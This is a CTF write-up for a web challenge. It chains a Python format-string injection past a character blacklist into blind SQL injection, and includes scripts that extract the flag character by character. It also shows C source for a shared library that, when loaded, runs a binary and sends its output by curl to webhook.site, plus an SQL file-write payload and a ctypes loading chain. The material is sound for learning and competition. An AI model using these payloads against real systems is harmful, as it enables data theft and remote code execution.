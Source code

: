 ```yaml
---
created: 2025-01-12T11:00
updated: 2025-01-12T20:04
solves: 33
points: 460
---
```


After some testing I discovered the world of python format string attacks.

```python
username = "{password.__init__}"
password = "hi"

SELECT * FROM users WHERE username = '<method-wrapper '__init__' of str object at 0x00007FF90538C3B8>' AND password = 'hi'
```

Soon I found out how to bypass the blacklist entirely.

```python
MALICIOUS_CHARS = ['"', "'", "\\", "/", "*", "+" "%", "-", ";", "#", "(", ")", " ", ","]

username = "{A}' OR 1=1 -- '"
for i, c in enumerate(MALICIOUS_CHARS):
    username = username.replace(c, "{A.MALICIOUS_CHARS[%d]}" % i)

r = requests.post("https://prepared-1-0226d7f72e5495ee.chal.uoftctf.org/", data={
    "username": username,
    "password": "w"
})
print(r.text)
```

However the server does not reply with anything, so simply logging in isn't helpful.

```python
user = cursor.fetchone()
if user:
	flash("Login successful!", 'success')
	return render_template('under_construction.html')
else:
	flash("Login Failed\n"+sanitized_query, 'error')
```

I tried leaking the credentials in global but they are just the default credentials.

## Part 1: SQL '%' operation

Then I implemented a char-by-char attack by using SQL's `%` wild card.

Login success only happens if the last char is correctly guessed.

```python
import string
import asyncio
import aiohttp
from tqdm.asyncio import tqdm
MALICIOUS_CHARS = ['"', "'", "\\", "/", "*", "+" "%", "-", ";", "#", "(", ")", " ", ","]

# UNION SELECT NULL, NULL, flag FROM flags --
target = "https://prepared-1-0226d7f72e5495ee.chal.uoftctf.org/"
# target = "http://localhost:5000/"


async def check_flag(session, flag):
    username = "{A}' OR EXISTS (SELECT 1 FROM flags WHERE flag LIKE CONCAT(UNHEX('"+flag.encode().hex()+"'), '%')) #"
    for i, c in enumerate(MALICIOUS_CHARS):
        username = username.replace(c, "{A.MALICIOUS_CHARS[%d]}" % i)

    async with session.post(target, data={
        "username": username,
        "password": "w"
    }) as response:
        text = await response.text()
        return flag if "Login successful!" in text else None


async def check(flag):
    async with aiohttp.ClientSession() as session:
        tasks = []
        for c in string.printable:
            if c == '%':
                c = '\\%'
            if c == '_':
                c = '\\_'
            tasks.append(check_flag(session, flag + c))

        results = []
        for task in tqdm(asyncio.as_completed(tasks), total=len(tasks)):
            results.append(await task)
        for result in results:
            if result:
                return result
    return None


async def main():
    flag = "uoftctf"
    while True:
        flag = await check(flag)
        if flag is None:
            break
        print(flag)
        if flag[-1] == '}':
            break
    print(flag.replace('\\', ''))

asyncio.run(main())
```

### part 1 flag

```flag
uoftctf{R3M3Mb3R_70_c173_Y0uR_50URc35_1N_5qL_F0RM47}
```

## Part 2

- SQL's `into outfile` does not work on pre-existing files.
- Template injection was not able to call any functions.
- `cdll[/readflag]` fails due to it not being position independent.

My closest attempt was writing a binary via SQL then trying to load it.

```python
import base64
import re
import requests
import html
import os
target = "http://localhost:5000/"


MALICIOUS_CHARS = ['"', "'", "\\", "/", "*", "+" "%", "-", ";", "#", "(", ")", " ", ","]
with open("exploit.so", "rb") as f:
    payload = base64.b64encode(f.read()).decode('utf-8')

# username = "{B}' UNION (SELECT FROM_BASE64('"+payload+"'),NULL,NULL) INTO OUTFILE '/run/mysqld/payload.so' # -- "
username = """{B}{{A}}' {{A.__init__.__globals__[setuptools].windows_support.ctypes.cdll[/run/mysqld/payload.so]}}"""
for i, c in enumerate(MALICIOUS_CHARS):
    username = username.replace(c, "{B.MALICIOUS_CHARS[%d]}" % i)
# print(username)
response = requests.post(target, data={
    "username": username,
    "password": "w"
})

decoded_response = response.content.decode('utf-8')
decoded_response = html.unescape(decoded_response)
print(decoded_response)

```

This is the source of `payload.so`.

```c
#include <stdio.h>
#include <stdlib.h>

__attribute__((constructor)) void on_load() {
    FILE *fp;
    char buffer[128];
    char curlCommand[256];
    const char *url = "https://webhook.site/";
    fp = popen("/readflag", "r");
    if (fp == NULL) {
        perror("popen failed");
        return;
    }
    if (fgets(buffer, sizeof(buffer), fp) != NULL) {
        snprintf(curlCommand, sizeof(curlCommand), "curl -X POST -d \"flag=%s\" %s", buffer, url);
        system(curlCommand);
    }
    pclose(fp);
}
```

It works locally (via python script).

```python
import ctypes
ctypes.cdll['./exploit.so']
```

But for some reason, never on the docker or remote.

The file is there, but I get error of `file not found` when trying to execute it with format string payload.

![image.png](https://res.cloudinary.com/kumonochisanaka/image/upload/v1736726181/2025/01/df944d01f0a33f1134a02a51267e84a4.png)

After the CTF ended, I realised that I was really close.

All I had to do was switch `OUTFILE` to `DUMPFILE`.

And my solution will work.

![200w.gif](https://res.cloudinary.com/kumonochisanaka/image/upload/v1736727242/2025/01/cdd29fbe6702a911d79e99121cf3bb62.gif)

```flag
uoftctf{5h3_53ll5_534_5h3ll5_by_7h3_C_5h0r3_c9b821c}
```